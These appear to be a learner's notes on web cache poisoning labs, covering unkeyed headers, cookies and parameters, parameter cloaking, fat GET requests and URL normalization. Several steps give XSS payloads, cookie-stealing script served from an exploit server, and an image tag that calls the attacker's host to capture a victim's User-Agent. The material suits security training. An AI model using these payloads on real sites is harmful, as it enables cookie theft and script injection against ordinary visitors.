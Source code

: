 ### Web cache poisoning with an unkeyed header

First we need to go to the home page. As the page has bad cache configurations, because the response has "Cache-Control, Age, and X-Cache" headers, you can add a Cache Buster like ?cb=1234, send it a few times, and you will see that the `X-Cache` header says "hit"

Then, you can see that adding the `X-Forwarded-Host: example.com` reflects that in the response, as can be seen here:
![[Pasted image 20240512153405.png]]
And its loading the "/resources/js/tracking.js" file. So, you can add your exploit server URL to the header, and specify the same file that the web  is trying to get, and in the body, you can put `alert(document.cookie)` and this will retrieve the victim's cookie.

The unkeyed thing means that the age will cache the page even if you add a new header, because it will treat the page the same as before, but adding that new header.

---
### Web cache poisoning with an unkeyed cookie

This is the same as the previous one, but in this case, the webpage is setting a cookie fehost=prod-cache-01. This value is reflected in the response inside a JS obect:
![[Pasted image 20240512160223.png]]

So, now add the Cookie header, with the value `fehost=1234`, and you will see it reflects in the response. Now you can try escaping the doubleQuote and insert malicious JS.
`fehost=test"-alert(1)-"test` will do the trick. Send the request until you see the X-Cache: hit, and refresh the lab page. You should see your XSS.

---
### Web cache poisoning with multiple headers

Access the lab, and you will see the URL "/resources/js/tracking.js". Add the CB, and the X-Forwarded-Host header with some random hostname. This doesn't have any effect on the response. 
Now remove the X-Forwarded-Host, and add a X-Forwarded-Scheme, set on "testing". And you0ll get a 302 response. The location header will point to the URL you are being redirected. If you add the X-Forwarded-Host header, you will see that you are redirect to that host. 

Then, you craft your payload in your exploit server with the body `alert(document.cookie)`, and the filename will be "/resources/js/tracking.js". Add the exploit server URL to your X-Forwarded-Host, and for the X-Forwarded-Scheme add anything you want, but not containing HTTP. 

Send the request, follow the redirection, and you'll see the response with document.cookie. Refresh the home page, and that's it!

---
### Targeted web cache poisoning using an unknown header

Find the GET to the home directory, and use the "param miner" extension to find headers. You'll find the "X-Host" is there

Add a cache buster, and see there is storing the request in cache. 

Add the "X-Host" header with a random value, and you'll see it's reflecting this value in the response. This can be seen in the following screenshot:
![[Pasted image 20240701185255.png]]

In the Exploit Server, specify the file name as "/resources/js/tracking.js" and with the body "alert(document.cookie)". Now modify the home request with the new cache buster = 1 and add the X-Host header with your exploit server. 

Send it until the X-Cache header says "hit". Pay attention to the "Vary" header, with the value "User-Agent". **This is saying that the "User-Agent" is part of the cache key**

Access the home URL with your cb=1, and see the alert triggered. 

As the comment section allows for HTML, put a HTML code that makes the victim interact with your exploit server: `<img src="https://exploit-0af3001e04da045e80207ac301390077.exploit-server.net/foo" />`

Now go and visit your "Access Log" to see your victim sending a GET request, and get the user-agent: `Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36`

Replace the user agent, on the home request, with the X-Host header added. Bare in mind the user-agent is used as a cache key

---
### Web cache poisoning via an unkeyed query string

Find the home request and send it a few times to validate this request is a potential cache oracle by adding a random cache buster.

You can have the cache hit even by adding a new header, like "Origin". 

When you get a cache-miss notice that you have the payload reflected on the response:
![[Pasted image 20240701192118.png]]
Try to break out of that with the following: `'/><script>alert(1)</script>`
If you send this until the X-Cache says hit, if you delete the querystring, and point to the home directory, it will reflect your script tag on the response until the cache buster expires (30 seconds). 

Remove the Origin header and validate that the querystring payload can be sent and it will be loaded eventually. Keep sending the payload to the home endpoint until you get the popup. 

---
### Web cache poisoning via an unkeyed query parameter

Use a cache buster on the home request to check if it's potentially a cache oracle. 
Then use the "param miner" to guess GET parameters. You'll find the "utm_content" is supported by the application. 

Send a GET request to `/utm_content='/><script>alert(1)</script>` until you get a "cache miss". 

---
### Parameter Cloaking

Use param miner to detect the "utm_content" parameter is also excluded from the cache key. If you append another parameter, the cache treats this as a single parameter. So...

Right click on the request, select "Bulk scan" > "Rails parameter cloaking scan" to identify the vulnerability automatically

Observe the page imports the script "/js/geolocate.js", excuting the callback function "setCountryCookie()". You can add the callback parameter with the new function to be exceuted.

`GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`

---
### Web cache poisoning via a fat GET request

Add this `callback=alert(1)` as the body of the GET request to `GET /js/geolocate.js?callback=setCountryCookie`

---
### URL normalization

Send a request to a non existing endpoint such as /falopa. See the "falopa" reflected on the response. Create a valid payload escaping the `<p>` get a hit on the cache, and send the URL to the victim. 
